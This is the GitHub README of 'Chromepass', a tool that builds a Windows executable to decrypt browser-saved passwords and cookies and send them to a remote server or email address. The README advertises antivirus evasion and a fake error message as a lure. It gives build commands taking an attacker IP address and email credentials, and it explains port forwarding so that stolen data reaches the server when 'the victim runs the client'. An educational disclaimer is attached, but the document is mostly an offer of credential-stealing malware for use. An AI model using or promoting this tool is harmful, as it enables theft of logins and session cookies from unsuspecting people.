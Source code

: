 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://github.com/darkarp/chromepass/blob/master/templates/resources/demo.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Email](#email)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
* [Demo](#demo)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Google Chrome, Chromium, Edge, Brave, Opera and Vivaldi saved paswords and cookies
  - Send a file with the login/password combinations and cookies remotely (http server or email)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message
  - Customize port

---

### AV Detection!  

The new client build methodology practically ensures a 0% detection rate, even without AV-evasion tactics. If this becomes false in the future, some methods will be implemented to improve AV evasion.  

An example of latest scans (note: within 10-12 hours we go from 0-2 detections to 32 detections so run the analysis on your own builds): 
  * [VirusTotal Scan 1](https://www.virustotal.com/gui/file/71d5600e2e9dbdc446aeca554d1f033a69d6f5cf5a7565d317cc22329c084f51/detection)
  * [VirusTotal Scan 2](https://www.virustotal.com/gui/file/f674032061e3d5639d168d68d60a8ff0a53bc249705ec9eb032a385015c20a42/detection)
  * [VirusTotal Scan 3](https://www.virustotal.com/gui/file/462de7fc96d2db7af3400b23d32a75d28909c19e756678f0d2f261efde705165/detection)
  * [VirusTotal Scan 4](https://www.virustotal.com/gui/file/d71a48fb7dc02a14823ceeedd5808e13b6734873f7b1b5c09db433b59eab256e/detection)

 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.9+

>It recommended to perform the installation inside a Windows VM. Some parts of the installation procedure might be affected by existing configurations. This was tested on a clean Windows 10 VM.

### Installation

>Chromepass requires Windows to compile! Support for linux and macOS may be added soon.

#### **Clone the repository**:
```powershell
git clone https://github.com/darkarp/chromepass
```
>Note: Alternatively to cloning the repository, you can download the latest release, since the repository may be more bug-prone.

### **Install the dependencies**:

The dependencies are checked and installed automatically, so you can just skip to [Usage](#usage). It's recommended that you use a clean VM, just to make sure there are no conflicts.

If you don't have the dependencies and your internet isn't fast, this will take a while. Go grab some coffee.   

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message 'An Error has happened'
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saved in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.  

-- --

## Email
Chromepass supports sending the files via email, although it's still experimental.
To enable this, you can use the `--email` flag while creating the server. You'll need two things, a username (your email) and a password (an app password).

To generate an app password you must go into your `account settings` -> `Security` and enable 2-step authentication (required!)

After 2-step authentication is enabled, you'll see a new option called `App Passwords`:
![2-step-authentication](https://i.imgur.com/Ip3ShCI.png)

You want to click there and then choose the appropriate options and then generate a password:
![2-step-authentication](https://i.imgur.com/DoQQ4Qn.png) 

After clicking `Generate` it will give you the needed password.
You can use the username and password directly in the command or you can simply put it inside the `config.ini`, where it says `YOUR_USERNAME` and `YOUR_PASSWORD`.

### Example with credentials in command
```powershell
python create.py --ip 92.34.11.220 --error --message 'An Error has happened' --email --username myuser@gmail.com --password qwertyuiopasdfghh
```
### If you put the credentials in the config file
```powershell
python create.py --ip 92.34.11.220 --error --message 'An Error has happened' --email
```

### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80 by default), so that when the victim runs the client it is able to connect to the server on the correct port.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---

## Manual dependency installation

The automated setup is experimental. For one reason or another, the setup might fail to correctly install the dependencies. If that's the case, you must install them manually.  
Fortunately, there are only 2 dependencies:  
  - [Microsoft Visual C++ Build Tools](https://visualstudio.microsoft.com/thank-you-downloading-visual-studio/?sku=BuildTools&rel=16) (install with the recommended workflows)
  - [Rustup](https://rustup.rs/)

Instead of the build tools you can also just install visual studio but it will take more space.

After successfully installing the build tools, you can simply run the `rustup-init.exe` from [Rustup](https://rustup.rs/)'s website.

This completes the required dependencies and you should be good to go.

---

## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---


## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> AGPL-3.0 </a>

---
[![Code Intelligence Status](https://scrutinizer-ci.com/g/darkarp/chromepass/badges/code-intelligence.svg?b=master)](https://scrutinizer-ci.com/code-intelligence)  

[Python]: <https://www.python.org/downloads/>

## Demo
![til](./templates/resources/demo.gif)